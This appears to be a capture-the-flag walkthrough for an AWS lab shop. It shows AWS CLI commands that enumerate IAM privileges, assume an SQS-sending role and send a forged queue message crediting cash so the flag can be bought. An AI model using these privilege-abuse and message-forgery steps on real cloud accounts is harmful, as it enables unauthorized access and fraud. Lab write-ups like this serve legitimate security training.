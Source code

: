 1. The attacker accesses the web page and identifies the features first

[ page ] → what can do
/        → User can buy items.
/receipt → User can see the purchase.
/charge  → User can charge the cash.


2. The attacker checks the privileges it has

    ```bash
    # This command will configure AWS CLI settings for a specific profile, allowing you to set credentials
    aws configure --profile [profile_name]
    # This command will give you the ARN & full name of you user.
    aws --profile [profile_name] sts get-caller-identity
    # This command will list the policies attached to your user.
    aws --profile [profile_name] iam list-user-policies --user-name [user_name]
    # This command will view the permissions granted to inline policies.
    aws --profile [profile_name] iam get-user-policy --user-name [user_name] --policy-name [polict_name]
    ```

※ Attacker finds that they have assume-role privileges for a particular role.
※ Attacker looks for clues about how to attack using this privilege.


3. Find the web source code. By analyzing the source code, the attacker checks the format of message sent to the SQS service

※ The website has a github address exposed as an annotation.
→ https://github.com/BoB12-C-G-V/FLAG-Shop

< Code Analysis Results >
- When charging the cash, a message is sent to the SQS service.
- The lambda function does not verify the received message.
- The message format is `{"charge_amount" : cash}`

※ Attacker plans to forge the cache and send message to the SQS service.


4. Assume the the sending message role about SQS service
    
    ```bash
    # This command will get you credentials for the role that can send message to SQS service
    aws --profile [profile_user] sts assume-role --role-arn [role_arn] --role-session-name [whatever_you_want_here]
    # This command will configure AWS CLI settings for a specific profile, allowing you to set credentials 
    aws configure --profile [assumed_profile_name]
    # This command will appends the obtained session token to the ~/.aws/credentials file
    echo "aws_session_token = {얻은 토큰}" >> ~/.aws/credentials
    ```


5. The attacker, who possesses the necessary permissions, sends a forged message to the SQS service queue
    
    ```bash
    # This command wil get you queue-url of SQS service
    aws --profile [assumed_profile_name] sqs get-queue-url --queue-name cash_charging_queue
    # This command wil sends a forged message to the SQS service queue
    aws --profile [assumed_profile_name] sqs send-message --queue-url [queue_url] --message-body '{"charge_amount": 100000000}'
    ```


6. Check the changed assets, purchase FLAG and check the secret-string
